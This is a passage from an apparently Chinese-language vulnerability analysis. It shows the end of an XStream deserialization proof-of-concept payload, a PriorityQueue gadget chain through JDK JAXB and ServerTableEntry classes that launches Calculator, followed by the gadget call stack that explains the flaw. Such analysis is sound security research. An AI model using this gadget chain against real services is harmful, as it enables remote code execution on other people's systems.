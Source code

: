 ```
                    <tagName/>
                    <context>
                      <marshallerPool class='com.sun.xml.internal.bind.v2.runtime.JAXBContextImpl$1'>
                        <outer-class reference='../..'/>
                      </marshallerPool>
                      <nameList>
                        <nsUriCannotBeDefaulted>
                          <boolean>true</boolean>
                        </nsUriCannotBeDefaulted>
                        <namespaceURIs>
                          <string>1</string>
                        </namespaceURIs>
                        <localNames>
                          <string>UTF-8</string>
                        </localNames>
                      </nameList>
                    </context>
                  </bridge>
                </bridge>
                <jaxbObject class='com.sun.corba.se.impl.activation.ServerTableEntry'>
                  <activationCmd>open /System/Applications/Calculator.app</activationCmd>
                </jaxbObject>
              </dataSource>
            </message>
            <satellites/>
            <invocationProperties/>
          </packet>
        </indexMap>
      </comparator>
    </default>
    <int>3</int>
    <string>javax.xml.ws.binding.attachments.inbound</string>
    <string>javax.xml.ws.binding.attachments.inbound</string>
  </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

#### 漏洞成因
```
AbstractReflectionConverter.unmarshal()
  SerializationMembers.callReadObject()
    SerializableConverter.doUnmarshal()
      PriorityQueue.readObject()
        PriorityQueue.heapify()
          PriorityQueue.siftDown()
            PriorityQueue.siftDownUsingComparator()
              sun.awt.datatransfer.DataTransferer$IndexOrderComparator.compare()
                sun.awt.datatransfer.DataTransferer$IndexedComparator.compareIndices()
                  com.sun.xml.internal.ws.client.ResponseContext.get()
                    com.sun.xml.internal.ws.api.message.MessageWrapper.getAttachments()
                      com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart.getAttachments()
                        com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart.getMessage()
                          com.sun.xml.internal.ws.message.JAXBAttachment.getInputStream()
                            com.sun.xml.internal.ws.message.JAXBAttachment.asInputStream()
                              com.sun.xml.internal.ws.message.JAXBAttachment.writeTo()
                                com.sun.xml.internal.ws.db.glassfish.BridgeWrapper.marshal()
                                  com.sun.xml.internal.bind.api.Bridge.marshal()
                                    com.sun.xml.internal.bind.v2.runtime.BridgeImpl.marshal()
                                      com.sun.xml.internal.bind.v2.runtime.MarshallerImpl.write()
                                        com.sun.xml.internal.bind.v2.runtime.XMLSerializer.childAsXsiType()
```